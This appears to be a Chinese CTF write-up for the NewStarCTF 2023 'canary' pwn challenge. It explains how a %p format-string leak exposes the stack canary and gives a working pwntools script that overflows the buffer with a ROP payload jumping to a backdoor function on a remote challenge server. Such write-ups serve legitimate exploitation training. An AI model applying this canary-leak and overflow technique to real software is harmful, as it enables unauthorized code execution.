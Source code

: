 ```yaml
---
title: canary
tags: [ctf-pwn]
date: 2023-10-11 11:15:00
categories: [ctf-pwn]
excerpt: canary格式化字符串漏洞
---
```


### canary泄露

NewStarCTF 2023 canary：

![](/img/canary/1.jpg)

`__readfsqword(0x28u)`说明添加了canary，但是第一次输入只能输入32字节，距离把canary一块printf出来差了8字节，因此用格式化字符串漏洞把canary打印出来。



`printf`的参数中，rdi为第一次输入的格式化字符串，然后需要5个%p把rsi，rdx，rcx，r8，r9略过，然后再来6个%p（因为后面的参数在栈上，而canary是栈上第41-48字节，需要第六个%p才能将其打印出来）



然后第二次输入就是一个最简单的rop链了



```python
from pwn import *
from LibcSearcher import *
#p = process("./canary")
p = remote("node4.buuoj.cn", 28964)
e = ELF("./canary")
context.log_level="debug"

backdoor = e.sym["backdoor"]

payload = b"%p%p%p%p%p%p%p%p%p%p%p"

p.sendlineafter(b"Give me some gift?\n", payload)


p.recvuntil(b"Oh thanks,There is my gift:\n")

leak = p.recvline()

canary = eval(leak[-19:-1])

print(hex(canary))


p.recvuntil(b"Show me your magic\n")


payload = b'a' * 40 + p64(canary) + p64(0) + p64(backdoor)
p.sendline(payload)

p.interactive()
```


